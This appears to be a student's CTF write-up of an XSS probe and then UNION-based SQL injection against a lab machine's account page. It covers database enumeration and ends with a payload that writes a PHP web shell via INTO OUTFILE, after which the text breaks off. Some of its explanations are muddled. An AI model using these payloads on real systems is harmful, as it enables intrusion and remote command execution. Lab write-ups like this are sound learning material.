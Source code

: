 The fact that the cookie is _Cookie_ and not _Set-Cookie_ means the server is using already stored cookies.

## document.cookie
Looks like the username is vulnerable to XSS, as when I tried inserting `<script>alert(document.cookie)</script>` in the username field, it popped up to me.
Next = figure out how to get the cookie of the admin.. --> COOKIE GRABBER
### Cookie Grabber
By trying the script `<script>document.cookie(user=admin); alert(document.cookie)</script>` in the _Username_ field, I was alerted with _user=admin_. This showed that I can manipulate the session cookie. The wuestion is just to what?
1. create a script which is stored on the account.php page


Trying to insert a pure <?php ?> script resulted in it being stored as a comment, rather than plain text..
![[Screenshot 2022-05-10 at 16.01.24.png]]

# SQLi - in Country field
XSS also possible in Country field (using Burp) but returns the error.

The SQL on the server most likely looks something along the lines of `SELECT username FROM players WHERE country = '[input]'`. So this can be exploited by selecting a country and adding `' union select <smtg>;-- -` where the _-- -_ indicates user provided text, meaning the space between the dashes signifies that it is a VALID comment. Submitting the request withtout the dashes simply returns an error.

The `union` statement simply allows for another statement to be added --> [meaning](https://www.w3schools.com/sql/sql_union.asp).


# Exploit
## enumerating
A handy [cheat sheet](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/) which shows commands you can run once you have found the entry point for SQLi union attack.
1. Trying to figure out how many columns there are I use the command `ORDER BY 1;-- -` and increment till an error message is returned from the server. _This does not take long as it appears there is merely 1 column._
2. By trying a `UNION SELECT 1;-- -` _for the number of columns_ a 1 is returned on the page --> which is the result of the SELECT query in the backend
3. Now we can get the names of the user and database by submitting the commands `UNION SELECT user();-- -` and `UNION SELECT database();-- -`. The results:
username = _uhc@localhost_
![[Screenshot 2022-05-10 at 16.18.23.png]]
--> this is also the _session_user()_ (`union select session_user();-- -`) and _current_user()_ (`union select current_user();-- -`)
database = _registration_
![[Screenshot 2022-05-10 at 16.18.58.png]]
4. Finding out which database version is being used by executing the command `union select version();-- -` we get _10.5.11-MariaDB-1_
## rce
For rce or uploading reverse shells, it is important to know what directory the user is currently in. Considering it is an Apache server and that the error message displays _/var/www/html/account.php_ I am going to assume we are in this or the _/var/www_ directory. Following [this tutorial](https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/) I proceed to try the cmd script `' union select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php';-- -` which when redirecting to `http://10.10.11.116/cmd.php?cmd=whoami` showed the following: